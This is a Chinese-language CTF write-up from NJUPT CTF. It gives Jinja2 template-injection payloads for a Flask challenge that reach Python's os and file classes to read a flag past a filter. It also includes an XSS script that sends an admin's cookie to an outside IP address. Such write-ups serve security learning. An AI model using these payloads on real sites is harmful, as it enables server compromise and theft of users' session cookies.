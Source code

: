 # NJUPT CTF writeup

## 学到的新知识、需要巩固的技术

+ XSS的简单利用

+ XXE的简单应用和内网嗅探特性

+ curl方法外带不回显得系统命令，create_function()，php灵活的函数调用

+ preg_replace()的漏洞，waf的一些绕过技巧

+ pip包的安装过程

## WEB

### Flask

基本算是模板的模板注入题。  

用基础操作找到可以调用os模块的类：  

```
{{"".__class__.__mro__[2].__subclasses__()[68].__init__.__globals__[&#39;os&#39;]}}
```

  发现system函数仅仅给出返回值的回显，可考虑把结果curl发送到vps上，或者结果输出到其他文件上。但其实不用这么麻烦。  

找到file类：  

```
{{"".__class__.__mro__[2].__subclasses__()[40]("../").read()}}
```

发现上层目录存在flag。  

```
{{"".__class__.__mro__[2].__subclasses__()[40]("fl"+"ag").read()}}os的read方法读取flag，发现被过滤。尝试url直接输入flag，也被过滤，说明这是针对url的过滤。直接在python语法中绕过即可。
```

最终payload：

```
{{"".__class__.__mro__[2].__subclasses__()[40]("../fl"+"ag").read()}}
```

`NCTF{Y0u_can_n0t_Read_flag_directly}`

### simple_XSS [Unsolved]

#### 尝试1

想要尝试向自己的服务器发admin的cookie：

有好多种xss的方法。一种是直接使用js

```javascript
<script>window.location.href="http://45.32.9.0/?cookie="+encodeURI(document.cookie);</script>
```
